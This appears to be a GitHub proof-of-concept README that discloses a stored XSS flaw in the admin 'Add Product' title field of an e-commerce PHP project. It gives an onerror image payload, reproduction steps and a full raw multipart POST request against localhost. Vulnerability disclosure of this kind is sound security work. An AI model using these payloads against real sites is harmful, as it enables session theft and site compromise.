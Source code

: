 # Full-Ecommece-Website-Add_Product-Stored_XSS-POC
* `Note` => Login to admin
* `Description` => Stored_XSS at `Product Title`
# Step to Reproduct
* `Login to admin` -> `Add Product` -> input payload `<img/src/onerror=prompt(10)>` at `Product Title` -> `Product Title`
# Exploit
![image](https://user-images.githubusercontent.com/79050415/158090373-2c108b5d-999d-4b23-82dc-1971dd1809fb.png)
* Input payload at `Product Title` -> clicked `Product Title` -> The XSS will trigger
![image](https://user-images.githubusercontent.com/79050415/158090577-8977edc4-12da-47bf-a24f-fcac2113928b.png)
![image](https://user-images.githubusercontent.com/79050415/158090598-0b273971-4fe1-4479-b7c1-95597f40fe83.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/158090702-340cdc74-8abc-4903-99e9-4d7b2d9b6414.png)
* When inserting into the database, the input is not filtered out characters
# POC
* Injection Point
```c
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
```
* Request
```c
POST /Full-Ecommece-Website/Codes/public/admin/index.php?add_product HTTP/1.1
Host: localhost:8080
Content-Length: 1354971
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXtBAIsNDayF64Ebh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/Full-Ecommece-Website/Codes/public/admin/index.php?add_product
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=oam3rcbi14nilh2pp3s21upev5; twk_uuid_5c2396fb7a79fc1bddf24b28={"uuid":"1.AGDzvqvmbboNUBtyBA0XLKxrviwKWw7HVKOjPqv5aIOJHjOnigPvpa5cn7QPGv6D5QwLM7ZIIBSpua1NrhQBpEeAdolcmuMk3JJtap3Nu2WjBL31HFdBqMF9VFcu8Olw","version":3,"domain":null,"ts":1647022863776}; TawkConnectionTime=0
Connection: close

------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_description"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_price"

10000
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="short_desc"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="publish"

Publish
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_category_id"

12
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_quantity"

1
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="file"; filename="car.png"
Content-Type: image/png

PNG
```
`VIDEO POC` https://drive.google.com/file/d/155K4qLwGI8kwctd5FijU9gzonSA2rMFz/view?usp=sharing

